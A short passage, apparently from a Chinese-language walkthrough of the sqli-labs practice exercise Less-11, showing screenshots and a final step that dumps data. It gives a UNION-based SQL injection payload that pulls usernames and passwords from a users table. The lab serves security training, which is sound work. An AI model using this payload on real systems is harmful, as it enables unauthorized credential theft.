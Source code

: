 ![Less-11_7](./img/Less-11_7.PNG)



+ 最后爆破数据

~~~ shell
1' union select 1,group_concat(username,id,password) from users#
~~~

![Less-11_8](./img/Less-11_8.PNG)
